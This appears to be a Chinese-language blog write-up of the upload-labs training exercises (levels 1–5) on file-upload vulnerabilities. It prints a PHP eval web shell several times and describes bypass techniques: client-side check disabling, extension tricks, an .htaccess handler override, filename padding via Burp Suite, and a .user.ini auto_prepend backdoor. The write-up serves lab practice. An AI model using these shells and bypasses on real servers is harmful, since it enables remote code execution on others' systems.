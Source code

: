 ```yaml
---
layout: post
title:  upload-labs(pass1-5)
date: 2021-06-27 17:13 +0900
category: penetration-exp
---
```

<!-- TOC -->

- [0x0 pass-01](#0x0-pass-01)
- [0x1 pass-02](#0x1-pass-02)
- [0x2 pass-03](#0x2-pass-03)
- [0x3 pass-04](#0x3-pass-04)
- [0x4 pass-05](#0x4-pass-05)
  - [0x4.1 第一种思路：点、空格、点](#0x41-第一种思路点空格点)
  - [0x4.2 第二种思路：.user.ini文件](#0x42-第二种思路userini文件)

<!-- /TOC -->

## 0x0 pass-01
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
![](/images/20210627-1.png)
`关闭js进行上传`  
![](/images/20210627-2.png)
`getshell`  
![](/images/20210627-3.png)

## 0x1 pass-02
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`修改文件类型为shell.php.jpg`  
![](/images/20210627-4.png)
`getshell`
![](/images/20210627-5.png)

## 0x2 pass-03
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`修改文件类型为shell.php5`  
`需要服务器允许上传并且可以解析 .php5 .php3 .phtml等文件`  
![](/images/20210627-6.png)
`getshell`
![](/images/20210627-7.png)

## 0x3 pass-04
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`phpstudy需要设置允许上传.htaccess文件`  
```php
<FilesMatch "shell_04.jpg">  
		SetHandler application/x-httpd-php
</FilesMatch>
#让服务器以php的方式解析，shell_04.jpg
```
![](/images/20210627-8.png)
`getshell`
![](/images/20210627-9.png)

## 0x4 pass-05

### 0x4.1 第一种思路：点、空格、点
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house";
    phpinfo();?>
```
```c
使用burpsuite改包上传shell_05.php
shell_05.php. .
点 空格 点
```
![](/images/20210627-10.png)
![](/images/20210627-11.png)
`getshll`  
![](/images/20210627-12.png)
![](/images/20210627-13.png)

### 0x4.2 第二种思路：.user.ini文件

[具体可以参考]([/images/20210627-13.png](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html))
```C
思路：.user.ini会让当前目录下的每个.php文件都执行一次.user.ini中指定的文件
设置.user.ini文件的内容为：auto_prepend_file=01.gif
然后再执行相同路径文件夹下的.php文件
执行图片马
```